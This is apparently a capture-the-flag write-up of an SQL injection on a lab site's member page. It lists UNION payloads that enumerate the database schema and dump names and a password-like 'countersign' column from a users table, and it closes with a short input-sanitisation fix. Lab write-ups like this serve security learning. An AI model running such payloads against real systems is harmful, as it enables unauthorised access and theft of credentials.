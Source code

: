 ### Where:  

`/?page=member`

### How:  

1. Found `member` page by clicking on "Members" button on the home page
2. Tried to inject SQL in different manners until we've tried a `UNION` attack

    ```SQL
    1 UNION SELECT table_name, column_name FROM information_schema.columns
    ```

    Hmmm... Let us check the `first_name` of every member and by the way... What's `Commentaire`!?

    ```SQL
    1 UNION SELECT first_name, Commentaire FROM users
    ```

    "this password"? Which password!? Perhaps `countersign`?

    ```SQL
    1 UNION SELECT first_name, countersign FROM users
    ```

3. Do the necessary steps described in Flag's `Commentaire` on Flag's `countersign`
4. Found!

### Fixable by:  

1. Properly sanitizing user input, and never interpolating them directly in queries

